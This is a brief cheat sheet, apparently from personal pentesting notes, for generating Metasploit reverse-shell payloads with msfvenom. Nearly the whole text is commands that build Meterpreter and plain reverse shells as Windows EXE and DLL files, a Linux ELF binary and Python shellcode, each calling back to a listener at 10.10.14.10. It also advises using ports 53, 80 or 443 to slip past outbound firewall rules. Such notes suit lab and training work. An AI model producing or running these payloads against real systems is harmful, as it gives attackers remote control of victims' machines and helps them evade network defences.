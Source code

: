 ```yaml
---
title: "Metasploit Shellcode"
date: 2024-6-26
tags: ["metasploit", "shellcode", "revshell", "msfconsole", "msfvenom"]
---
```


---
### Generate Metasploit Shellcode

#### Windows x64 EXE

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f exe --platform windows LHOST=10.10.14.10 LPORT=443 > rev.exe
```

#### Windows x86 EXE

```bash
# Staged
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f exe --platform windows LHOST=10.10.14.10 LPORT=443 > rev.exe
```

```bash
# Stageless
msfvenom -p windows/shell_reverse_tcp -a x86 -f exe --platform windows LHOST=10.10.14.10 LPORT=443 EXITFUNC=thread > rev.exe
```

#### Windows x64 DLL

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f dll --platform windows LHOST=10.10.14.10 LPORT=443 > rev.dll
```

<small>*Note: These will be flagged by AV*</small>
<br>
<small>*Note: Try to use common ports such as 53, 80, 443 to bypass firewall outbound rules*</small>

#### Linux amd64 ELF

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=1337 -f elf > rev.elf
```

#### Others

```bash
# Generate shellcode in python format and avoid specific bytes
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 -f python -v shellcode --platform windows -b'\x00\x0a\0d' LHOST=10.10.14.10 LPORT=443
```

<br>